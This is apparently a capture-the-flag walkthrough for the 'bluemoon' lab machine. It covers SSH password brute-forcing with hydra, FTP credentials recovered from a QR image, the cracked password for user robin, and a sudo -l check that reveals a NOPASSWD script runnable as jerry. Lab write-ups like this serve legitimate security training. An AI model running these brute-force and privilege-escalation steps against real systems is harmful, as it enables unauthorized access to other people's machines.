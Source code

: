 - I decided to try and brute force the ssh login with hydra

    ```
    hydra -l users.txt -P passwords.txt -t 4 ssh://172.28.128.8
    ```

- I didn't get further than this, so I had to search the internet for help
- I found a [blog post](http://vxer.cn/?id=66) and the help of the article I found file hidden_text with a link to an image
- When you decrypt the png image to text, you get username and password to ftp. I used [zxing.org](https://zxing.org/w/decode.jspx), which results in to

    ```
    #!/bin/bash

    HOST=ip
    USER=userftp
    PASSWORD=ftpp@ssword

    ftp -inv $HOST user $USER $PASSWORD
    bye
    EOF
    ```

- When you login to ftp you find a information.txt and p_list.txt files from ftp. Basically it's telling you to bruteforce the ssh login (so I wasn't too far off) with username robin and a password list

    ```
    hydra -l robin -P p_lists.txt -t 4 ssh://172.28.128.8
    ```

- I found a valid password for robin

    ```
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 32 login tries (l:1/p:32), ~8 tries per task
    [DATA] attacking ssh://172.28.128.8:22/
    [22][ssh] host: 172.28.128.8   login: robin   password: k4rv3ndh4nh4ck3r
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-13 05:43:04
    ```

- I logged in and tried sudo

    ```
    sudo -l
    ```

- I tells me to run script as jerry

    ```
    Matching Defaults entries for robin on bluemoon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User robin may run the following commands on bluemoon:
    (jerry) NOPASSWD: /home/robin/project/feedback.sh
    ```

